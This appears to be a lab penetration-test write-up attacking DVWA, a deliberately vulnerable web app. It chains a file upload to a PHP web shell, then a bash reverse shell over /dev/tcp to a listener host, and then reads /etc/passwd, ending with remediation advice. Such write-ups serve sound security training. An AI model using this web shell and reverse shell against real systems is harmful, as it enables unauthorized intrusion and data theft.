

## Overview

- **Application:** DVWA (Damn Vulnerable Web Application)
- **Phase:** Exploitation & Gaining Access
- **Target:** http://10.236.92.45:8080
- **Severity:** Critical


## Description

During the exploitation phase, multiple vulnerabilities identified in DVWA were leveraged to gain unauthorized access to the system. The primary attack vector used was **Unrestricted File Upload**, which enabled remote code execution.


## Attack Path

```text
Recon → SQL Injection → File Upload → Web Shell → Reverse Shell → System Access
```


##  Step 1 — Initial Access (File Upload)

A malicious PHP web shell was uploaded via the vulnerable upload functionality.

### Payload:
```php
<?php system($_GET['cmd']); ?>
```


##  Step 2 — Web Shell Access

The uploaded file was accessed:

```
http://10.236.92.45:8080/hackable/uploads/shell.php?cmd=id
```

### Result:
```
uid=33(www-data) gid=33(www-data)
```


##  Step 3 — Reverse Shell

### Listener:
```bash
nc -lvnp 4444
```

### Trigger:
```
http://10.236.92.45:8080/hackable/uploads/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/172.17.0.1/4444%200%3E%261%27
```

### Result:
- Reverse shell established
- Interactive access gained



##  Step 4 — Post Exploitation

### System Information:
```bash
cat /etc/os-release
whoami
```

### File Access:
```bash
cat /etc/passwd
```

### Evidence Collection:
```bash
download /etc/passwd
sha256sum passwd
```


##  Impact

- Remote Code Execution (RCE)
- Full system access
- Ability to execute arbitrary commands
- Potential lateral movement


##  Root Cause

- Unrestricted file upload
- Lack of input validation
- No execution restrictions on uploaded files


##  Remediation

- Restrict file upload types
- Disable execution in upload directories
- Implement input validation
- Use secure coding practices


##  Tools Used

- Burp Suite
- Netcat


##  Risk Rating

| Metric        | Value |
|--------------|--------|
| Severity     | Critical |
| Exploitability | Easy |
| Impact       | High |


##  Conclusion

The exploitation phase successfully demonstrated how multiple vulnerabilities can be chained to gain full system access. The application is highly insecure and requires immediate remediation.


